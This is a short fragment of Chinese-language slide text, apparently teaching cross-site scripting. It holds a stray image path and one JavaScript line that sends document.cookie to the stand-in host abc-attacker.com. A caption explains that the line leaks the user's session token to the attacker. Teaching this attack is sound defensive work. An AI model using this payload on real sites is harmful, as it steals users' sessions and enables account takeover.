

#
结果
执行
var i=new Image; i.src=http://abc-attacker.com/+document.cookie;

向攻击者的服务器提出一个请求，请求中包含用户的会话令牌